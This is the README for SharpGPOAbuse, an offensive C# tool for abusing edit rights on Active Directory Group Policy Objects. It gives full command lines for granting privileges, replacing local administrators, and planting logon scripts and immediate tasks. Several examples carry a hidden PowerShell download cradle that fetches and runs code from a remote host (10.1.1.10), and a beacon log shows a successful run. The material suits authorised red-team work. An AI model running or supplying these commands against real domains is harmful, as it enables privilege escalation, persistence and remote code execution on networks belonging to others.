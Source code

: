 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

## Compile Instructions ## 
Make sure the necessary NuGet packages are installed properly and simply build the project in Visual Studio.

## Usage ##
```
Usage:
        SharpGPOAbuse.exe <AttackType> <AttackOptions>
```

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [--AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [--AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [--AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [--AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [--AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [--AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
        
Example:
        SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Adding a Local Admin 
#### IMPORTATN NOTE: THIS WILL KICK ALL EXISTING ADMINS OUT OF THE ADMIN GROUP THEN ADD THE INDICATED USER TO IT.
```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.

Example:
        SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Configuring a User or Computer Logon Script  
```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious script only on a specific user or computer controlled by the vulnerable GPO, you can add an if statement within the malicious script:
```
SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "if %username%==<targetusername> powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

### Configuring a Computer or User Immediate Task  
```
Options required to add a new computer or user immediate task:

--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Additional User Task Options:
--FilterEnabled
        Enable Target Filtering for user immediate tasks.
--TargetUsername
        The user to target. The malicious task will run only on the specified user. Should be in the format <DOMAIN>\<USERNAME>
--TargetUserSID
        The targeted user's SID.

Additional Computer Task Options:
--FilterEnabled
        Enable Target Filtering for computer immediate tasks.
--TargetDnsName
        The DNS name of the computer to target. The malicious task will run only on the specified host.
        
Example: 
        SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious task only on a specific user or computer controlled by the vulnerable GPO you can use something similar to the following:
```
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO" --FilterEnabled --TargetDnsName target.domain.com

```

## Additional Options 
| Option               | Description                               |
| ---------------------|-------------------------------------------|
| --DomainController   | Set the target domain controller          |
| --Domain             | Set the target domain                     |
| --Force              | Overwrite existing files if required      | 

## Example Output
```
beacon> execute-assembly /root/Desktop/SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[*] Tasked beacon to run .NET program: SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"I
EX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[+] host called home, sent: 171553 bytes
[+] received output:
[+] Domain = europa.com
[+] Domain Controller = EURODC01.europa.com
[+] Distinguished Name = CN=Policies,CN=System,DC=europa,DC=com
[+] GUID of "Default Server Policy" is: {877CB769-3543-40C6-A757-F2DF4E5E28BD}
[+] Creating file \\europa.com\SysVol\europa.com\Policies\{877CB769-3543-40C6-A757-F2DF4E5E28BD}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```
